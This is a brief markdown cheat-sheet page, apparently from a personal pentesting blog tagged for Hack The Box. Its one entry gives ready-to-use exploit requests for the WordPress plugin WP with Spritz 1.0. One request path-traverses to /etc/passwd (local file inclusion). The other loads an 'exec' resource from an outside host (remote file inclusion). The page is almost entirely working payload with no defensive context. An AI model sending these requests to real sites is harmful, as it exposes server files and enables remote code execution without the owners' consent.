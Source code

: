 ```yaml
---
title: "Weird Cheat Sheets"
categories:
  - Pentest
  - Ethical Hacking
tags:
  - HTB
  - Cheatsheets
  - Pentest
  - Windows
  - Linux
  - Random stuff
---
```



# Lets glow 🚀
WordPress Plugin WP with Spritz 1.0 LFI
```
/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http(s)://domain/exec
```

